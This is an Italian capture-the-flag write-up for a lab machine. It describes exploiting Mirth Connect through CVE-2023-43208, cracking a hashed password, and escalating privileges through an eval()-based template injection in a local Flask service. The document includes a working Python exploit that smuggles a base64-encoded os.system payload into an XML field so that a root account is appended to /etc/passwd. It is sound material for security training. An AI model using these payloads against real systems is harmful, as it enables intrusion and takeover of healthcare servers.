# **Interpreter**

## Reconnaissance



- OpenSSH 9.2p1 sulla porta 22/tcp
- Eclipse Jetty web server sulla porta 80/tcp (HTTP) e 443/tcp (HTTPS)



Mirth Connect è un prodotto software utlizzato nella industria sanitaria per la gestione dei dati.

Mirth Connect fornisce un interfaccia per la gestione dei dati tra sistemi differenti.



- Mirth Connect <= v3.12.0 (?) [Mirth Connect Releases](https://github.com/nextgenhealthcare/connect/releases?q=3.12.0&expanded=true)


## CVE-2023-43208

Mirth Connect < v4.4.1 sono vulnerabili ad un attacco di tipo RCE per utenti non autenticati. 

Si utilizza la PoC [K3ysTr0K3R/CVE-2023-43208-EXPLOIT](https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT).



- Mirth Connect v4.4.0

## Data exfiltration





Gli utenti che hanno accesso alla shell:

- root
- sedric

Si accede al file di configurazione **/usr/local/mirthconnect/conf/mirth.properties**:

```
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
database.username = mirthdb
database.password = MirthPass123!
```

Si accede al database:

	$ mysql -u mirthdb -p'MirthPass123!' mc_bdd_prod





Si ottengono delle credenziali non in chiaro per sedric.

## Password Cracking
Mirth Connect v4.4.0 utilizza di default PBKDF2WithHmacSHA256 con iteration count 600000 per la confidenzialita' delle password ([Documentazione Mirth Connect v4.4](https://docs.nextgen.com/en-US/mirthc2ae-connect-by-nextgen-healthcare-user-guide-3281761/default-digest-algorithm-in-mirthc2ae-connect-4-4-62159))

Dal [codebase](https://github.com/nextgenhealthcare/connect/blob/be90435c57f2f0e93f1aa612f5afc4bf52717e01/core-util/src/com/mirth/commons/encryption/PBEEncryptor.java#L9) si ricava anche che:

- Password: salt + ciphertext
- Default salt size = 8





	$ hashcat -a 0 -m 10900 sedric.hash /usr/share/wordlists/rockyou.txt.gz

- sedric:snowflake1

## Shell as sedric



Si ottiene il file user.txt.

## Privilege escalation



```python
#!/usr/bin/env python3
"""
Notification server for added patients.
This server listens for XML messages containing patient information and writes formatted notifications to files in /var/secure-health/patients/.
It is designed to be run locally and only accepts requests with preformated data from MirthConnect running on the same machine.
It takes data interpreted from HL7 to XML by MirthConnect and formats it using a safe templating function.
"""
from flask import Flask, request, abort
import re
import uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os

app = Flask(__name__)
USER_DIR = "/var/secure-health/patients/"; os.makedirs(USER_DIR, exist_ok=True)

def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
    # DOB format is DD/MM/YYYY
    try:
        year_of_birth = int(dob.split('/')[-1])
        if year_of_birth < 1900 or year_of_birth > datetime.now().year:
            return "[INVALID_DOB]"
    except:
        return "[INVALID_DOB]"
    template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
    try:
        return eval(f"f'''{template}'''")
    except Exception as e:
        return f"[EVAL_ERROR] {e}"

@app.route("/addPatient", methods=["POST"])
def receive():
    if request.remote_addr != "127.0.0.1":
        abort(403)
    try:
        xml_text = request.data.decode()
        xml_root = ET.fromstring(xml_text)
    except ET.ParseError:
        return "XML ERROR\n", 400
    patient = xml_root if xml_root.tag=="patient" else xml_root.find("patient")
    if patient is None:
        return "No <patient> tag found\n", 400
    id = uuid.uuid4().hex
    data = {tag: (patient.findtext(tag) or "") for tag in ["firstname","lastname","sender_app","timestamp","birth_date","gender"]}
    notification = template(data["firstname"],data["lastname"],data["sender_app"],data["timestamp"],data["birth_date"],data["gender"])
    path = os.path.join(USER_DIR,f"{id}.txt")
    with open(path,"w") as f:
        f.write(notification+"\n")
    return notification

if __name__=="__main__":
    app.run("127.0.0.1",54321, threaded=True)
```

Questa applicazione e' raggiungibile in locale sulla porta 54321.

In sostanza, questa applicazione elabora contenuto XML fornito dall'utente.

L'applicazione non sanitizza in modo appropriato il contenuto dei tag ed il template viene elaborato con eval() e restituito all'utente.

L'idea e' quella di sfruttare i privilegi di questo programma per poter eseguire del codice privilegiato iniettato nel template.

### Command Injection

Questo exploit permette in locale di eseguire una richiesta POST verso il server vulnerabile con un XML malevole che crea un nuovo record /etc/passwd con pwned:evil.

Per bypassare i filtri (REGEX) si e' offuscato il payload con il formato Base64.

```python
import requests

URL='http://127.0.0.1:54321/addPatient'
DATA = """<?xml version="1.0" encoding="UTF-8"?>
<patient>
    <firstname>Victor</firstname>
    <lastname>Frankenstein</lastname>
    <sender_app>evil</sender_app>
    <timestamp>now</timestamp>
    <birth_date>10/10/1999</birth_date>
    <gender>{__import__('os').system(__import__('base64').b64decode(BASE64).decode())}</gender>
</patient>
"""

session = requests.Session()
session.source_address = ('127.0.0.1' ,0)

response = session.post(URL, data=DATA,)

status_code = response.status_code
data = response.text

print(f"=== Response {status_code}===")
print(data)
```

Creazione del record /etc/passwd:
```bash
$ openssl passwd 'evil'
$1$p5pa4ID1$uPt/W.lFYU03sMm2EUByY1

# Record /etc/passwd
pwned:$1$85dPAnUv$uNU4iHukz4Gi2uWa50cmS.:0:0:root:/root:/bin/bash

# Command encoded
BASE64 = base64(RECORD >> /etc/passwd)
```

Si esegue l'exploit sulla macchina target e si ottiene una shell privilegiata.



Si accede al contenuto di root.txt.
